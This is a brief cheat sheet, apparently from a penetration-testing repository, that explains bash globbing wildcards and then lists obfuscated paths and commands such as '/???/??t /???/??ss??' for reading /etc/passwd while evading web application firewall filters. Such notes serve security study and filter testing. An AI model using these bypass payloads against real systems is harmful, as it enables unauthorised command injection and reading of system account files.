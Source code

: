 ## Globbing


The `*` serves as a "wild card" for filename expansion.

```bash
/etc/pa*wd    #/etc/passwd
```   

The `?` serves as a single-character "wild card" for filename expansion.

```bash
/b?n/?at      #/bin/cat
```

The `[]` serves to match the character from a range.

```bash
ls -l [a-z]*   #list all files with alphabet in its filename.
```

The `{}` can be used to match filenames with more than one patterns

```bash
ls {*.sh,*.py}   #list all .sh and .py files
```

## Bypass /etc/passwd WAF using globbing

```
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```


## Bypass "cat /etc/passwd" WAF using globbing

```
/???/??t /???/??ss??
```

